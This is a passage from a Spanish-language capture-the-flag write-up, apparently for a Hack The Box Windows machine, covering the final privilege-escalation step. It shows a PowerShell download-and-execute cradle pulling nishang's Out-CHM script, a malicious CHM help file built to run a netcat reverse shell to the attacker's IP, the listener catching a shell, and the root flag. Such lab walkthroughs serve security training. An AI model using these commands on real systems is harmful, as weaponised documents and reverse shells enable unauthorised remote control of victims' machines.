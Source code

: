 A través de [WayBack Machine](https://web.archive.org/web/20160201063255/http://download.microsoft.com/download/0/A/9/0A939EF6-E31C-430F-A3DF-DFAE7960D564/htmlhelp.exe) se puede descargar

Creo el archivo y lo transfiero a mi máquina linux

```null
PS C:\Users\Usuario\Desktop> IEX(New-Object Net.WebClient).downloadString("https://raw.githubusercontent.com/samratashok/nishang/master/Client/Out-CHM.ps1")
PS C:\Users\Usuario\Desktop> Out-CHM -Payload "\\10.10.16.4\shared\nc.exe -e cmd 10.10.16.4 443" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
Microsoft HTML Help Compiler 4.74.8702

Compiling c:\Users\Usuario\Desktop\doc.chm


Compile time: 0 minutes, 0 seconds
2       Topics
4       Local links
4       Internet links
0       Graphics


Created c:\Users\Usuario\Desktop\doc.chm, 13,438 bytes
Compression increased file by 266 bytes.
```

Le cambio el nombre a ```instructions.chm```, que es lo que esperaba, y lo subo a ```C:\Docs```

```null
mv doc.chm instructions.chm
```

Puedo ver la segunda flag

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.151] 49749
Microsoft Windows [Version 10.0.17763.678]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
214961b2fb76637dd77231cdc47a7894

C:\Windows\system32>
```